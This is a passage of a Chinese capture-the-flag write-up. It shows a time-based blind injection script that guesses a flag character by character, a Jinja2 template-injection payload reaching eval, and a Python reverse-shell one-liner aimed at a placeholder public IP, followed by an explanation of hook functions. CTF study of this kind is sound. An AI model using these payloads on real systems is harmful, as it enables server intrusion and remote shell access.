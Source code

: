 ```python
            }
            start_time = time.time()
            response = session.post(url,data)
            end_time = time.time()

            time_token = end_time-start_time
            
            if time_token>8.0:
                print("found char:", c)
                output += c
                break
        
        if len(output)==i:
            print(output)
            i+=1
        else:
            break
    return output

output = get_readflag_out()
print(output)
```
核心思想就是一个字符一个字符的来拆解进行猜测。

### #3 弹shell
> 参考 ： [2024“国城杯”网络安全挑战大赛题解](https://www.zxcms.com/content/i0d8pwy331l69g.html#%E6%B3%95%E4%B8%80%EF%BC%9Ashell%E7%9B%B2%E6%B3%A8)
先上传payload：
```
/shell?shellcmd={{lipsum|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')(request|attr('POST')|attr('get')('shell'))}}
```

然后post提交python反弹shell脚本：
```
shell=__import__('os').system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("公网ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")\'')
```

## 0x03 题外话之hook函数
`Hook函数`也叫钩子函数，可以看作是一个监听器(注重于过程监控)，用于在特定事件发生时执行自定义代码。它允许开发者**在特定事件发生前或发生后插入自定义代码**(例如上面的`resquest.add_response_callback(callback(request,response))`)，以实现对系统行为的个性化控制。
> 类比理解：把使用Hook技术的人比作钓鱼人，而Hook技术就像他的渔具，系统中不断传递的事件就像一条条游鱼，钓鱼人通过Hook技术将他想要的目标事件钓上（Hook技术一般是有指向性的），然后就可以对事件进行修改，再让其正常运行，达到技术人员的目的。\
> ![alt text](images/image14.png)

